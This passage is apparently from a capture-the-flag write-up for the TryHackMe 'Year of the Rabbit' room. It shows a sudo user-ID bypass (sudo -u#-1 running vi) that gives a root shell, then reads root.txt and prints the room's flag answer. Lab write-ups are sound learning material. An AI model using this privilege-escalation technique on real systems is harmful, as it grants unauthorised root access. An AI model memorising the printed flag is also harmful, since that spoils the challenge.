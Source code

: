* Let's craft our exploit.

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

* Next we have to type the following:

<figure><img src="../../.gitbook/assets/10 (19).png" alt=""><figcaption></figcaption></figure>

* We must have `root` access.

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

root@year-of-the-rabbit:/home/gwendoline#
```

* Let's get the root flag.

```
root@year-of-the-rabbit:/home/gwendoline# cd /root/
root@year-of-the-rabbit:/root# cat root.txt 
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

### Answer

```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

